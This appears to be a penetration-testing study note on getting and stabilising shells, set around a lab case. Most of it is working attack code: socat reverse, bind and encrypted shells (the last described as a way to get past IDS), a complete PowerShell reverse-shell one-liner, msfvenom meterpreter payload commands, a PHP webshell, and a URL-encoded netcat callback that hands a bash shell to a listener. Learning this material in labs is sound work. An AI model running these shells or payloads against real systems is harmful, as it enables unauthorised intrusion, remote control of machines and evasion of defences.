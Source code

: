 
#### Shells:

If we get a shell on the target, our next goal should be to escalate our privileges such that we have a more reliable way of connecting to the target. This could be a "better" shell, or ideally a normal user on the target systems such that we can get a native shell. 


**Reverse:** Target connect back to us 
- Note when we connect via a reverse shell over the internet we need to configure our network to accept the shell. 
- Hot tips: Have the listening port be a common one such as 80, 443, 53 etc. since this makes the connection less likely to get stopped by firewalls. 


**Bind:** A port is open on the target, and we can connect to the target via it.
- Note firewalls on the target may stop the bind port

Resources to gain shells:
- Netcat / socat 
- Metasploit --multi/handler
- Msfvenom
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- /usr/share/webshells in kali 

**Interactive vs non-interactive shells:**
- Interactive shells lets us interact with programs after executing them, ex. SSH requering us to verify the fingerprint.
- Non-interactive shells restrict us to the programs that do not require interactions to run properly. 

**Make shells stabile:**
- Common problem that our (bind/reverse)shells do not have autocomplete, interactivity and loses connection when we type CTRL+C.  


- can use rlwrap with netcat: 
```
rlwrap nc -lvnp <port>
```

#### Socat:
**Reverse shell:**
```
Listening: socat TCP-L:<port> -
On target:

(Windows): socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

(Linux): socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

**Bind shell:**
```
On target listening:  
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

On host connecting to target:
socat TCP:<TARGET-IP>:<TARGET-PORT> -

```


#### Encrypted shells:
- Usefull since it hides the communication between us and the target, can help with bypassing IDS. 
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

cat shell.key shell.crt > shell.pem

Then we can get the encrypted reverse shell listener:
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -


Connecting back from the target:
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

Encrypted tty listening: (tty just make the shell more stabil)
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

Corresponding code for the target to connect back to the listener
```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


#### Other shellcodes
For windows targets, insane reverse shell code:
``` PowerShell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

More on shells: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/


**Staged**  payloads are sent in two parts. The first part is called the _stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.  

**Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

##### msfvenom 
ref: [[Metasploit]]

```
Full example:
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443 


General format of payloads: <OS>/<arch>/<payload>
ex: linux/x86/shell_reverse_tcp

Staged: linux/x86/meterpreter/reverse_tcp
Stageless: linux/x86/meterpreter_reverse_tcp

Seach for payloads:
msfvenom --list payloads | grep <filter for os, arch etc.>
```


#### Case problem:

- We are given a webserver vulnerable to file inclusion. 
- We start off by uploading a light php webshell:
```PHP
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
```

Then we can execute commands via the url:
```
http://10.10.222.18/uploads/webshell.php?cmd=ifconfig
```

- NOTICE we have to navigate to the webshell.php then send in a command. 

Okey, this is nice, but we want a better shell, since this just runs in the browser. -> We can make the shell do a nc connection to our local listener, but this is still a unstable shell:
```
http://10.10.222.18/uploads/webshell.php?cmd=nc%2010.10.210.222%204444%20-e%20%2Fbin%2Fbash
```

We upload a better shell and execure it via the webshell:
- We upload a php reverse shell: `/usr/share/webshells/php/php-reverse-shell.php`

Then maybe we managed to get some credential files, and manage to ssh into the machine. 